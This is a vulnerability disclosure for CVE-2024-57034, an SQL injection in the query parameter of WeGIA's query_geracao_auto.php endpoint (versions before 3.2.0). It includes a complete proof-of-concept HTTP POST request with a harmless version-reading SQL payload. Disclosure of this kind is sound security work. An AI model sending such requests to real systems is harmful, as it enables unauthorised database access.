

## CVE-2024-57034: SQL Injection in query_geracao_auto.php

> *CVE Publication: https://www.cve.org/CVERecord?id=CVE-2024-57034*

## Vendor

<p style="text-align: justify;"> WeGIA (Web Gerenciador Institucional) is an integrated management system licensed under the GNU GPL v3.0, designed to enhance administration, control, and transparency for institutions. </p>

[https://www.wegia.org](https://www.wegia.org/)

[https://sol.sbc.org.br/index.php/latinoware/article/view/31544](https://sol.sbc.org.br/index.php/latinoware/article/view/31544)

## Affected Product Code Base

WeGIA < v3.2.0

## Vulnerability Description

<p style="text-align: justify;">A SQL Injection vulnerability was identified in the endpoint <strong>/WeGIA/html/socio/sistema/controller/query_geracao_auto.php</strong>, specifically in the <strong>query</strong> parameter. This vulnerability allows the execution of arbitrary SQL commands, compromising the confidentiality, integrity, and availability of the database.</p>

## POC

### Vulnerable Request:

`````html
POST /WeGIA/html/socio/sistema/controller/query_geracao_auto.php HTTP/1.1
Host: comfirewall.wegia.org:8000
Cookie: _ga_F8DXBXLV8J=GS1.1.1733498717.8.0.1733498717.60.0.0; _ga=GA1.1.552051356.1730893405; PHPSESSID=4rjacbjksvve2j7goo2ldqh98l
User-Agent: Mozilla/5.0 (X11; Linux aarch64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 61
Origin: https://comfirewall.wegia.org:8000
Referer: https://comfirewall.wegia.org:8000/WeGIA/html/socio/sistema/psocio_geracao.php
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Te: trailers
Connection: keep-alive

query=SELECT @@version_compile_os AS Sistema_Operacional;
`````

### Payload:

`````sql
SELECT @@version_compile_os AS Sistema_Operacional;
`````



## References

[https://github.com/nilsonLazarin/WeGIA/issues/825](https://github.com/LabRedesCefetRJ/WeGIA/issues/825)

[https://www.wegia.org](https://www.wegia.org/)

[https://github.com/LabRedesCefetRJ/WeGIA/](https://github.com/LabRedesCefetRJ/WeGIA/)

## Discoverer

[](https://www.linkedin.com/in/nmmorette) [Natan Maia Morette](https://www.linkedin.com/in/nmmorette) 

> *By: [CVE Hunters](https://github.com/Sec-Dojo-Cyber-House/cve-hunters)*